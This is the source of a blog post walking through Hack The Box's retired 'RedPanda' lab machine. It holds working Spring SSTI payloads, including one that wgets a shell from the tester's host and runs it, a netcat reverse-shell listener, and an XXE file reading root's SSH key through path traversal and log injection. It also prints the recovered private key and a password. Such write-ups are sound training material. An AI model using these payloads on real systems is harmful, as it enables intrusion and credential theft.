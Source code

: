 ```yaml
---
layout: post
title: "HTB: RedPanda"
author: Andrew Cherney
date: 2023-04-20 21:26:28
tags: htb easy-box linux webapp xxe ssti
icon: "assets/icons/redpanda.png"
post_description: "The name of the game for this box is trial and error. RedPanda the search engine for red panda pictures is vulnerable to SSTI. Post user there are two jar files being run which need to be investigated. After understanding how they work the user needs to change image metadata, abuse directory traversal, and use an XXE to get the root ssh key."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/RedPanda]
└──╼ $nmap -sC 10.10.11.170
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-20 21:41 CDT
Nmap scan report for 10.10.11.170
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Red Panda Search | Made with Spring Boot
```

<h2>Port 8080 - http</h2>

{% include img_link src="/img/redpanda/front_page" alt="front_page" ext="png" trunc=600 %}

Appears we have a search engine which will construct some sort of query to find red panda images based on a provided user input. When I look at the packet in burp suite the only information we pass to the site is a name parameter.

<h1>User as woodenk</h1>

<h2>SSTI</h2>

A bare bones name parameter is passed to the backend code. I'll start with a fuzz of a few things. First this [SSTI payload list](https://github.com/payloadbox/ssti-payloads). Two things happen when I fuzz the name parameter.

#1 There are banned characters such as $ and ~. #2 two payloads return a response which indicated this is vulnerable to SSTI. 

![SSTI test payload](/img/redpanda/SSTI_test_payload.png)

The reason this exploit works in this instance is the web server is using some version of a template engine. That template engine can be used to import local data or run specific code to help render and format pages. When improperly handled user input can reach the code that handles these templates it more often than not leads to RCE. 

Now here comes the complicated part of SSTI: crafting a payload. The two payloads that yielded results were **@(6+5)** **#{7\*7}**. I enumerate further and find that **(6+5)**, **^{7\*7}**, **\*{7\*7}** also work. Here is where I can look around [PayloadAllTheThings SSTI payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java---velocity) for frameworks and basic tests to find what this is running and further develop an exploit. 

After a little bit of manual enumeration I find that this is likely Java - Spring as the provided payload works to run commands. 

```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```

![SSTI successful test](/img/redpanda/SSTI_success.png)

I'll use a simple shell upload and then run the shell through this exploit.

```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('wget http://10.10.14.2:8080/shell').getInputStream())}
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('bash shell').getInputStream())}
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/RedPanda]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.170] 38572
bash: cannot set terminal process group (878): Inappropriate ioctl for device
bash: no job control in this shell
woodenk@redpanda:/tmp/hsperfdata_woodenk$ cat ~/user.txt
cat ~/user.txt
94c2a417e6a574e------------------
```

Oh, I'm already woodenk. I suppose it makes sense that akin to Flask, Spring might not traditionally use www-data. 

<h1>Root</h1>

<h2>Following Groups</h2>

I notice that woodenk is a part of the logs group, and searching for files associated with that group I come across a root directory named **/credits**. Within this directory there are xml files with view totals for the images related to the site, and functionally is used to determine whose images are being viewed the most. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>0</views>
  </image>
```

This appears it could be vulnerable to an XML eXternal Entity, or an XXE. The file permissions here are only root can edit these xml files. I'd say there's a good chance that whatever process is updating this is run by root. I cannot edit any file in this directory however. The location of the images is **/opt/panda_search/src/main/resources/static/img**. I have a hunch that if I look at the metadata they will have an author field set. 

Looking further I see that the panda search jar file is run as root, and is most likely the process controlling these files. I'll quickly download it and sift through what is up with the /credits directory. I spin up a python http server and wget the jar file. 

<h2>Debugging Java</h2>

To sift through these class files inside the jar I used IntelliJ IDEA, you could use VSCode if you install a Java decompiler, or Eclipse. I peruse over to the MainController class file. In here is the bones of what is happening in the Credits directory, and additionally contains woodenk's password for the mysql database and doubles as his machine password: **RedPandazRule**. That password is useless as logging into woodenk this way makes the session not a part of the logs group. 

That jar file contains the code for creating the creds.xml files and assigning the authors, but there is nothing in there to change the scores. 

I decide to use pspy64, a process sniffing tool, to find anything running as a cronjob or as root and hidden from **ps -aux** output. 

```bash
2023/04/23 17:28:01 CMD: UID=0     PID=20784  | java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar
2023/04/23 17:28:01 CMD: UID=0     PID=20783  | /bin/sh /root/run_credits.sh 
```

That is exactly what I was looking for. There is one line of code in a class from this new jar which allows us to smuggle in an XXE: **String xmlPath = "/credits/" + artist + "_creds.xml";**. In this line we see that the defined artist of the image provided is passed unsanitized to create the creds.xml file for a particular artist. This is vulnerable to directory traversal, and hence vulnerable to XXE since I can direct it to the home directory where I can create the .xml file for it to update. 

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/root/.ssh/id_rsa"> ]>
<credits>
  <author>raccoon</author>
  <image>
    <uri>/../../../../../../../home/woodenk/raccoon.jpg</uri>
    <views>0</views>
    <foo>&xxe;</foo>
  </image>
</credits>
```

The final part of the puzzle here is the log file **/opt/panda_search/redpanda.log** which after a new line appears, it is read and then it reads the image artist and updates the views on the creds file. The file creates logs as such:

```
200||10.10.14.7||Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0||/search
200||10.10.14.7||Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0||/img/greg.jpg
```

I'll change the artist of an image, place it in the home directory, and then inject the log of the view of that image. If this works I should have root's ssh key. 

(Editors note, this needs to be done after gaining a shell through the search engine as woodenk is not a part of the logs group otherwise)

```bash
exiftool -Artist="../home/woodenk/raccoon" raccoon.jpg 
scp raccoon.jpg woodenk@10.10.11.170:.
```

```bash
woodenk@redpanda:~$ echo "200||10.10.14.7||Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0||/../../../../../../home/woodenk/raccoon.jpg" > /opt/panda_search/redpanda.log
woodenk@redpanda:~$ cat raccoon_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo>
<credits>
  <author>raccoon</author>
  <image>
    <uri>/../../../../../../../home/woodenk/raccoon.jpg</uri>
    <views>0</views>
    <foo>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</foo>
  </image>
</credits>
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/RedPanda]
└──╼ $ssh root@10.10.11.170 -i root.key 
root@redpanda:~# cat root.txt
f77f9f36------------------------
```

